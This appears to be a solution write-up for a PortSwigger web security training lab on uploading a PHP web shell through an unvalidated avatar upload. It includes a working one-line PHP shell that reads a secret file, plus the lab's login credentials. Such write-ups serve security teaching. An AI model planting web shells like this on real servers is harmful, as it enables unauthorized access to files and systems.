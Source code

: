 # Lab: Remote code execution via web shell upload

## Description

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

[ACCESS LAB](https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/file-upload-apprentice/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload#)

## Solution

1. Navigate into "My account".
1. Upload a file as avatar with name `exploit.php` with the content:
   > `<?php echo file_get_contents('/home/carlos/secret'); ?>`
1. Now inspect the image with the browser developer tools.
1. You see `<img src="/files/avatars/exploit.php" class="avatar">`
1. Copy the link address and visit it in the browser.
1. The page will contain the secret you must submit by clicking the button at the top of the lab page to solve it.
